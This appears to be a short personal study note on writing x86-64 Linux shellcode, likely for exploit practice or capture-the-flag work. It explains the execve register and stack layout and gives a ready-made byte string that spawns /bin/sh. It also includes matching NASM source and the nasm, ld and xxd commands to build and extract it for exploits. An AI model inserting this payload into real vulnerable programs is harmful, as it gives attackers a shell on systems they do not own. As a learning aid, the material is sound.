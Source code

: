 - `SO, ON THE STACK, WHEN DOING THE SYSCALL to EXECVE, YOU NEED LIKE THIS `:
- Put the values path, argv, env in rdi, rsi, rdx;  in our case: bin/bash, bin/bash,0
-  Put the values path, env, argv also on the stack!!! In THAT ORDER, meaning: 

        $rsp   : /bin/bash - or address of /bin/bash
        $rsp+8 : 0
        $rsp+16: /bin/bash (in hex)

### THE QUICKEST FIX: 
        shellcode = b'\x48\x31\xd2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05'
        
        OR

        shellcode = asm('xor eax,eax') + shellcode

To write more asm code, use inline asm syntax: (xor eax,eax; xor ebx,ebx; xor ecx,ecx;)

#

To create your own shellcode do this: 

# Create a asm file, with the following boilerplate:
        section .text
                global _start
        
        _start:
                xor     rax, rax
                xor     rdx, rdx
                mov     qword rbx, '//bin/sh'
                shr     rbx, 0x8
                push    rbx
                mov     rdi, rsp
                push    rax
                push    rdi
                mov     rsi, rsp
                mov     al, 0x3b
                syscall
#

Then compile it like this:

`nasm -f elf64 -o myfile.o myfile.asm `

`ld -s -o myfile_exectuable myfile.o (linker)`

`./myfile_executable`

#

To see the compiled hex code to add to your exploits: 

> xxd -p myfile.o > myfile.hex

or

> xxd myfile.o > myfile.hex, and look for the code with bin/sh.
